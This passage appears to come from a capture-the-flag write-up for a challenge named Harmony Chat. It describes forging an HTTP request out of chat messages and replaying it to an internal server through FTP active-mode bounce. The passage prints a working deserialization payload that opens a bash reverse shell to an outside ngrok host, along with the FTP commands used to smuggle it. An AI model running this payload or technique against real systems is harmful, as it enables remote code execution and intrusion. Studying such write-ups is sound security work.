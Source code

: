 {{< image src="/images/harmonychannel.png" alt="research" position="center" style="border-radius: 8px;" >}}

First thing that came to mind was that the chat logs all have the same ``displayName: message`` format... So the thought was to split the POST request by the first occurence of ``:`` on each new line and have these different "users" deliver specific "messages" to construct the POST request there. You had the ability to invite multiple users to one channel, so this was probably the way to go. 

I know that this can be automated - but I did the process manually. 
So, we should have 5 "users": ``POST /csp-report?``, ``Host``, ``Content-Length``, ``Content-Type`` and ``{"csp-report"``. They will then each message the chat in order as so... 

{{< image src="/images/chatlogsPOST.png" alt="research" position="center" style="border-radius: 8px;" >}}
_NOTE: not seen here, but I used the console to send an empty message that would register as a new line to seperate the request headers from the request body. You'll see what this looks like in a bit._

I bet you can see where I'm going with this. If we go ahead and download the associated chat log file, we get:

```
POST /csp-report?: HTTP/1.1
Host: localhost:3380
Content-Length: 386
Content-Type: application/csp-report

{"csp-report": {"blocked-uri": "x", "document-uri": "X", "effective-directive": "X", "original-policy": "X", "referrer": "X", "status-code": "X", "violated-directive": "X", "source-file": {"toString": {"___js-to-json-class___": "Function", "json": "process.mainModule.require(\"child_process\").exec(\"bash -c 'bash -i >& /dev/tcp/4.tcp.ngrok.io/18843 0>&1'\", {stdio:\"inherit\"})"}}}}
```

Which looks _exactly_ like the POST request we would send to the HTTP server. 

We go ahead and ask the FTP server to STOR that chat log file in it (by clicking the logs button at the top right), and then connect to it ourselves. We need to give it these commands: 

```
user <uid>
pass                    <-- Doesn't matter
port 172,0,0,1,13,52    <-- Sets FTP on active mode so this is required
retr <id of channel>    <-- Retrieves chat log, sends it in the data channel
```

{{< image src="/images/ftpcommunication.png" alt="research" position="center" style="border-radius: 8px;" >}}

- The ``user`` command is expecting a uid of any user in the current session. We technically made 5, so any of their uids work.

- The ``pass`` command can be blank, as the implementation of the application said any password will be accepted. 

- The ``port`` command is what makes the FTP server operate in active mode. The command's arguments are the 4 bytes of the IP, then the 2 remaining values are the port number following this convention: p1, p2 where ``(p1 * 256) + p2`` = full port number. We want to connect to Harmony Chat's localhost at the HTTP server, which is at port 3380. 
